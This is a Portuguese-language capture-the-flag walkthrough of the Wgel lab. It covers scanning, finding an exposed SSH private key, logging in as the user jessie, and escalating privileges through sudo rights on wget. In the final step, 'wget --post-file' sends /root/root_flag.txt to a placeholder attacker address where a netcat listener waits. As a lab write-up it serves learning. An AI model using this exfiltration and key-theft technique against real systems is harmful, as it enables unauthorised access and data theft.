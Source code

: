 # _**Wgel CTF**_
![](wgel.jpg)

## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Também vamos fazer um scan <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Vamos verificar a página <mark>/sitemap</mark>  
Temos um site para criação de _templates_ e afins  
O nome, unapp Template  
Pesquisando no Google por CVEs  
Nenhuma encontrada  

Mais alguns scans são feitos com <mark>Gobuster</mark> para tentar descobrir alguns diretórios em sitemap, mas sem nenhum sucesso  
Vamos tentar a ferramenta <mark>Nikto</mark>  
Nada também  
Fui à procura de uma solução na Internet e encontrei um scan com Gobuster, mas ao invés de apenas usar o endereço IP, incluir também <mark>/sitemap</mark>  
Temos a descoberta de alguns diretórios a mais!  

![](directory.jpg)

## _**Ganhando acesso**_
Curiosamente, temos um diretório bem específico, <mark>/.ssh</mark>  
Visitando, temos um arquivo _**id_rsa**_, do qual podemos baixar no nosso computador  
Mas ainda fica a pergunta, onde podemos encontrar o usuário  

![](jessie.jpg)

Vasculhando muito nos arquivos fonte da página, encontramos um nome, além daqueles que estão no site, <mark>Jessie</mark>  
Vamos tentar realizar um login via ssh agora!  

![](login_ssh.jpg)

Primeiro, vamos buscar pela user flag com um comando ```find```
> ```bash
> find / -type f -name *.txt 2>/dev/null
> ```
![](find.jpg)

Com um comando ```cat```, obtemos a primeira _flag_  
Agora vamos para a segunda, que a princípio, está em _/root_  

## _**Escalando privilégios**_
Vamos tentar escalar privilégios, primeiro verificando com o comando ```sudo -l```  

![](sudo.jpg)

A linha abaixo:
> (root) NOPASSWD: /usr/bin/wget
significa que o usuário <mark>jessie</mark> pode rodar o _wget_ como _root_, sem senha.  

Primeiro, em nosso computador, vamos escutar com _netcat_
> ```bash
> nc -lnvp 4000
> ```
Vamos executar as seguintes linhas de comando
> ```bash
> cd /usr/bin
> ```
> ```bash
> sudo /usr/bin/wget --post-file=/root/root_flag.txt http://[vpn_ip_address]:400
> ```
![](bin.jpg)
![](netcat.jpg)

Assim, podemos obter a _flag_ _root_
